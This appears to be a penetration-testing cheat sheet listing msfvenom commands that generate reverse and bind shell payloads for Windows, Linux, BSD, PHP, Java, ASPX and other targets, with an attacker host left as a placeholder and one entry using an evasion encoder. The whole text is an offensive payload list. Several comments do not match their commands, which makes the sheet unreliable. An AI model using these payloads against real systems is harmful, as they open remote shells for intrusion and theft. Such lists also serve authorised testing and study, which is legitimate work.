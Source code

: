 # **msf**

ms08-67  
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  
# PHP reverse shell  
msfvenom -p php/meterpreter/reverse_tcp LHOST=x.x.x.x  
  
# Java WAR reverse shell  
msfvenom -p java/shell_reverse_tcp LHOST=x.x.x.x  
msfvenom -p java/jsp_shell_reverse_tcp LHOST LPORT -f war > war  
  
# Linux bind shell  
msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai  
  
# Linux FreeBSD reverse shell  
msfvenom -p bsd/x64/shell_reverse_tcp LHOST=x.x.x.x  
  
# Linux C reverse shell  
msfvenom -p linux/x86/shell_reverse_tcp LHOST=x.x.x.x  
  
# Windows non staged reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  
# Windows Staged (Meterpreter) reverse shell  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x  
  
# Windows Python reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  
# Windows ASP reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  
# Windows ASPX reverse shell  
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  
# Windows JavaScript reverse shell with nops  
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  
# Windows Powershell reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  
# Windows reverse shell excluding bad characters  
msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=x.x.x.x  
  
# Windows x64 bit reverse shell  
msfvenom -p windows/x64/shell_reverse_tcp LHOST=x.x.x.x  
  
# Windows reverse shell embedded into plink  
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x